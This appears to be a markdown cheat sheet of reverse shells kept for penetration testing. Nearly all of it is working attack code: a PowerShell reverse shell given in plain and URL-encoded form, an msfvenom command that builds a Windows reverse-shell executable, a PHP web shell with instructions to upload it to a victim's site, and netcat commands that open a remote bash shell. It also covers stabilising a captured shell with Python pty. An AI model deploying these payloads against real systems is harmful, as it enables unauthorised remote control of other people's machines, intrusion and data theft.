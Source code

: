 # List of useful shells to keep on hand.

### If python is installed you can make the shell more stable.
* Use Python, Python2 or Python3 as required. ```python -c 'import pty; pty.spawn("/bin/sh")'```
* This allows access to terminal commands. ```export TERM=xterm```
* Background the shell using CTRL+Z. Then in your own terminal enter this ```stty raw -echo; fg``` to turn off terminal echo allowing access to tab autocompletes, the arrow keys, and Ctrl + C and foregrounds the shell.

### Powershell reverse shell. Just need to replace IP and PORT of your choice and copy into cmd.exe or another method of executing commands.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### URL encoded reverse shell for Windows systens. IP and Port need to be changed.
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### msfvenom
* ```msfvenom -p <PAYLOAD> <OPTIONS>``` Standard syntax.
* ```<OS>/<arch>/<payload>``` Basic convention.
* ```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``` Windows x64 Reverse Shell in an exe format (staged).

### Simple example of a PHP reverse shell.
* Start you listener. ```nc -lvnp <PORT>```
* Save this to a file then upload to a viticim webpage. ```<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>```
* Within the address bar enter the following. ```<LOCATION OF FILE>/shell.php?cmd=nc <IP> <PORT> -e /bin/bash```

### Netcat shells.
* Listener ```nc -lvnp <PORT> -e /bin/bash```
* Connect via ```nc <IP> <PORT>
